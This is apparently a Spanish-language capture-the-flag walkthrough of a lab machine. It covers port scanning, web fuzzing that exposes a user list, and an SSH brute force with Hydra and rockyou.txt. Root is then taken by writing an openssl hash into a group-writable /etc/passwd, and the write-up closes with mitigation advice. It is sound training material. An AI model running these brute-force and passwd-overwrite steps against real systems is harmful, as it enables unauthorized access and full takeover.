## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**Autor**|elc0ket|

## Técnicas usadas

Enumeración de servicios, Fuzzing web, Fuerza bruta SSH, Secuestro de cuenta (**Account Hijacking**) vía inyección de hash.

## Fase 1: Reconocimiento y Enumeración

### Escaneo de Puertos con Nmap

Realizamos un escaneo completo de puertos para identificar los servicios activos e identificar vectores potenciales en la máquina objetivo.

```
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -sC -sV -oN ports 172.17.0.2
```

**Resultados obtenidos:**



#### Análisis de Puertos:

- **Puerto 21 (FTP):** `vsftpd 3.0.3`
    
- **Puerto 22 (SSH):** `OpenSSH 7.2p1` -> Posible vector de ataque mediante fuerza bruta de credenciales.
    
- **Puerto 8080 (HTTP):** `Apache 2.4.18` -> Servidor web por enumerar.

### Enumeración Web (Puerto 8080)

Accedemos al servicio web para verificar el contenido disponible de forma pública.

```
http://172.17.0.2:8080
```



Al inspeccionar visualmente y revisar el código fuente, se identifican las rutas `/panel`, `/upload`, `/download` y `/admin`. Sin embargo, ninguna de ellas muestra información expuesta a simple vista.

Procedemos a realizar **fuzzing** con la herramienta `dirsearch` para buscar páginas u archivos ocultos bajo el directorio `/admin/`.


```
dirsearch -u http://172.17.0.2:8080/admin/ --exclude-status 403,404,500 -e php,txt,html
```




**Hallazgo:** Descubrimos el archivo crítico `admin/users.txt`. Al visitarlo, encontramos una lista potencial de usuarios del sistema:

```
http://172.17.0.2:8080/admin/users.txt
```



## Fase 2: Explotación (Acceso Inicial)

### Ataque de Fuerza Bruta con Hydra

Con la lista de usuarios obtenida (`users.txt`), utilizamos `Hydra` combinada con el diccionario `rockyou.txt` para intentar ganar acceso. Tras fallar en el servicio FTP, redirigimos el ataque hacia el servicio **SSH**.


```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -f
```


  
**Credenciales válidas encontradas:**

- **Usuario:** `Thor`
    
- **Contraseña:** `cassandra` 


ssh student@172.17.0.2

Nos conectamos exitosamente al servidor (limpiando previamente las claves antiguas del archivo `known_hosts` si existieran conflictos):


```
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
ssh Thor@172.17.0.2
```



### Enumeración del Sistema

Una vez dentro del sistema como el usuario `Thor`, realizamos las comprobaciones básicas de reconocimiento interno:

1. **Identidad actual:** `whoami` -> `Thor`
    
2. **Permisos sudo:** `sudo -l` -> El usuario `Thor` **no** tiene privilegios de sudo asignados.
    
3. **Búsqueda de Binarios SUID:**
 

```
find / -perm -4000 2>/dev/null
```
 


El binario `/usr/bin/passwd` tiene el bit SUID activado, lo cual es normal, pero al revisar detalladamente los permisos de los archivos de configuración del sistema operativo, detectamos una **grave mala configuración** en el archivo `/etc/passwd`:

```
ls -la /etc/passwd
```

**Salida:**



**Vulnerabilidad Crítica:** El archivo `/etc/passwd` pertenece al grupo `Thor` y cuenta con **permisos de escritura** (`-rw-rw-r--`). Al verificar nuestro ID actual (`id`), confirmamos que pertenecemos a dicho grupo, por lo que podemos editar este archivo directamente.

### Explotación de la Mala Configuración en `/etc/passwd`

Dado que podemos modificar el archivo que define los usuarios y sus credenciales en el sistema, generaremos un hash de contraseña personalizado usando `openssl` para reemplazar la clave del usuario `root`.

1. **Generamos el hash MD5 para la nueva contraseña (`1234`):** 
 
```
openssl passwd -1 1234
```
 
_(Ejemplo de salida: `$1$salt$hashedstring`)_

2. **Editamos el archivo con un editor de texto:**
 
```
nano /etc/passwd
```
 
Sustituimos la `x` de la línea correspondiente a root (la cual indica que la contraseña se lee desde `/etc/shadow`) por el hash que acabamos de generar:

```
# Antes:
 root:x:0:0:root:/root:/bin/bash
 
# Después:
root:[NUESTRO_HASH_GENERADO]:0:0:root:/root:/bin/bash
```



3. **Migración a Root:** Finalmente, nos autenticamos localmente como el usuario administrador utilizando la contraseña definida:

```
su root
# Password: 1234
```
 




¡Control total del sistema alcanzado con éxito! **¡Máquina comprometida como ROOT!**

## Conclusión

### Resumen del Ataque

| Fase                    | Acción                             | Herramienta        | Resultado                               |
| ----------------------- | ---------------------------------- | ------------------ | --------------------------------------- |
| **1. Reconocimiento**   | Escaneo de puertos                 | `nmap`             | Puertos `21`, `22`, `8080`              |
| **2. Enumeración**      | Fuzzing web                        | `dirsearch`        | `/admin/users.txt` con usuarios válidos |
| **3. Acceso Inicial**   | Fuerza bruta SSH                   | `hydra`            | Credenciales `Thor:cassandra`           |
| **4. Escalada**         | Inyección de hash en `/etc/passwd` | `openssl` + `nano` | Escritura directa como grupo `Thor`     |
| **5. Post-Explotación** | Migración a root                   | `su`               | Control total del sistema               |

### Medidas de Mitigación

| Vulnerabilidad                            | Riesgo                                                                         | Medida Correctiva                                                                                                                                                                                                              |
| ----------------------------------------- | ------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Archivo `users.txt` expuesto**          | Enumeración de usuarios del sistema                                            | Eliminar archivos sensibles del directorio web. Revisar permisos y estructura de `/admin/`. Añadir autenticación al directorio.                                                                                                |
| **Contraseñas débiles (SSH)**             | Acceso no autorizado por fuerza bruta                                          | Implementar política de contraseñas robusta. Usar autenticación por clave pública SSH y deshabilitar autenticación por contraseña (`PasswordAuthentication no` en `sshd_config`). Considerar `fail2ban` para limitar intentos. |
| **Permisos incorrectos en `/etc/passwd`** | Escalada de privilegios a root                                                 | Restaurar permisos estándar: `chown root:root /etc/passwd && chmod 644 /etc/passwd`. Auditar permisos de archivos críticos del sistema regularmente.                                                                           |
| **Inyección de hash en `/etc/passwd`**    | Suplantación del usuario root                                                  | Migrar la gestión de contraseñas completamente a `/etc/shadow` (permisos `640`, propietario `root:shadow`). Verificar que la columna de contraseña en `/etc/passwd` siempre contenga `x`.                                      |
| **Versión desactualizada de software**    | Exposición a CVEs conocidos (`OpenSSH 7.2p1`, `Apache 2.4.18`, `vsftpd 3.0.3`) | Mantener todos los servicios actualizados. Aplicar parches de seguridad de forma periódica.                                                                                                                                    |
| **FTP activo sin uso aparente**           | Superficie de ataque innecesaria                                               | Deshabilitar servicios no necesarios. Si FTP es requerido, migrar a SFTP o FTPS.                                                                                                                                               |

### Lecciones Clave

> [!warning] Principio de Mínimo Privilegio  
> Los archivos críticos del sistema (`/etc/passwd`, `/etc/shadow`) **nunca** deben tener permisos de escritura para grupos de usuarios no privilegiados. Una mala configuración de permisos en estos archivos permite la escalada de privilegios más trivial posible.

> [!tip] Hardening Básico Post-Instalación  
> Cualquier servidor expuesto debería pasar por un checklist de hardening: deshabilitar autenticación SSH por contraseña, eliminar servicios innecesarios, auditar archivos SUID y permisos de archivos del sistema.